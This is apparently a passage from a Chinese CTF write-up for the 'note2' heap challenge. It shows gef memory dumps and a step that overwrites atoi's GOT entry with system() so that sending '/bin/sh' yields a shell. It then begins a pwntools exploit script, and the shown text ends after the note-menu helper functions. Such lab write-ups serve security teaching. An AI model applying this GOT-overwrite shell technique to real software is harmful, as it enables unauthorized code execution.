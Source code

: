 ```c
gef➤  x/16gx 0x00007fc6acaa3e80
0x7fc6acaa3e80 <atoi>:	0x00000aba08ec8348	0x00004530e8f63100
```

接下来修改 `atoi` 的 `got` 为 `system` 函数的地址

```python
content = p64(system_addr)
editnote(0, 1, content)
```
```c
gef➤  x/8gx 0x0000000000602088
0x602088 <atoi@got.plt>:	0x00007f44aa9a1390	0x00000000004008c6
0x602098:	0x0000000000000000	0x0000000000000000
0x6020a8:	0x0000000000000000	0x0000000000000000
0x6020b8:	0x0000000000000000	0x00007f44aad21620
gef➤  x/8gx 0x00007f44aa9a1390
0x7f44aa9a1390 <__libc_system>:	0xfa86e90b74ff8548	0x0000441f0f66ffff
0x7f44aa9a13a0 <__libc_system+16>:	0x48001479b83d8d48	0xfffffa70e808ec83

```
#### getshell
发送 `'/bin/sh' `就可以成功 `getshell` 了  
最终 `payload`
```python
from pwn import *
p = process('./note2')
note2 = ELF('./note2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level = 'debug'


def newnote(length, content):
    p.recvuntil('option--->>')
    p.sendline('1')
    p.recvuntil('(less than 128)')
    p.sendline(str(length))
    p.recvuntil('content:')
    p.sendline(content)


def shownote(id):
    p.recvuntil('option--->>')
    p.sendline('2')
    p.recvuntil('note:')
    p.sendline(str(id))


def editnote(id, choice, s):
    p.recvuntil('option--->>')
    p.sendline('3')
    p.recvuntil('note:')
    p.sendline(str(id))
    p.recvuntil('2.append]')
    p.sendline(str(choice))
    p.sendline(s)


def deletenote(id):
    p.recvuntil('option--->>')
    p.sendline('4')
    p.recvuntil('note:')
    p.sendline(str(id))

```